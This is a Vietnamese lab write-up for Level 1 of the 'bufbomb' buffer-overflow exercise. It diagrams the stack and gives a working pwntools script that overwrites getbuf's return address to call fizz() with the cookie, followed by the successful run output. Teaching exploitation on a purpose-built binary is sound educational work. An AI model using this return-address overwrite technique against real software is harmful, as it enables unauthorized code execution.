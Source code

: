 # Level 1
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Buffer overflow để thực thi được hàm `fizz()`.  

## Solution
Ở level này, cách chúng ta exploit cũng tương tự như ở [level 0](https://github.com/datthinh1801/NT209.L21.ANTN.Group_1/tree/main/Lab%205/Level%200), chỉ có duy nhất 1 điểm khác biệt là hàm `fizz()` có 1 tham số truyền vào.  
```c
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    printf("Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    printf("Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
}
```  

Bên cạnh đó, hàm `fizz()` này sẽ so sánh giá trị được truyền vào với giá `cookie` được tạo từ `username`. Nếu 2 giá trị bằng nhau thì chuỗi `Fizz!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console, nếu không thì chuỗi `Misfire!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console.  

Vậy bên cạnh việc overflow để thực thi được hàm `fizz()`, chúng ta còn cần phải truyền được giá trị bằng với giá trị `cookie` vào hàm `fizz()` này.  

Tiếp theo, để quyết định được payload để nhập vào chương trình, chúng ta sẽ xem stack trước khi hàm `Gets()` được thực thi.  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+
```  
> Tương tự ở level 0, payload của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `4` bytes cuối là địa chỉ của hàm `fizz()`.

Stack khi bắt đầu thực thi hàm `fizz()`:  
```
+---------------------------------+
|           argument 1            |
+---------------------------------+
|     return address (fizz)       |---> return address của hàm fizz()
+---------------------------------+
|           ebp (fizz)            |---> đỉnh của stack
+---------------------------------+
```  

Khi hàm `fizz()` được thực thi thì giá trị của tham số thứ nhất sẽ được truy xuất qua tham chiếu `(%ebp + 8)` (như hình minh họa ở trên). Chính vì vậy, để thành công trong việc truyền giá trị vào hàm thì chúng ta cần ghi thêm `8` bytes vào payload với `4` bytes đầu để ghi đè giá trị của return address của hàm `fizz()` và `4` bytes cuối cùng chính là giá trị mà chúng ta muốn truyền vào hàm `fizz()`.

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo process tới chương trình bufbomb
main_handler = process(['./bufbomb', '-u', '09821978'])

# tạo process tới chương trình makecookie để tạo cookie
cookie_getter = process(['./makecookie', '09821978'])
# lưu giá trị cookie
cookie = cookie_getter.recvline()[2:-1]
cookie = int(cookie, 16)
print(f"cookie: {hex(cookie)}")

# tạo 1 ELF object để đọc metadata của file bufbomb
e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) bytes ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)
# lấy địa chỉ của hàm fizz() thêm vào payload
exploit_payload += p32(e.symbols['fizz'])
# tiếp tục chèn thêm 4 ký tự 'A' vào payload
# để ghi đè return address của hàm fizz
exploit_payload += b'A'*4
# chèn giá trị cookie vào payload
exploit_payload += p32(cookie)

print(f"exploit payload: {exploit_payload}")

with open('payload.txt', 'wb') as f:
    f.write(exploit_payload)

main_handler.sendline(exploit_payload)
main_handler.interactive()
```  

Stack khi bị overflow:  
```
+---------------------------------+
|             cookie              |---> tham số thứ nhất của hàm fizz()
+---------------------------------+
|             'AAAA'              |---> return address của hàm fizz()
+---------------------------------+
|      địa chỉ của hàm fizz()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+
```  

Chạy script.  
```
└─$ ./level1.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 29
[+] Starting local process './makecookie': pid 31
[*] Process './makecookie' stopped with exit code 0 (pid 31)
cookie: 0x31f21393
exploit payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x9b\x13\x80AAAA\x93\x13\xf21'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 29)
Userid: 09821978
Cookie: 0x31f21393
Type string:Fizz!: You called fizz(0x31f21393)
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
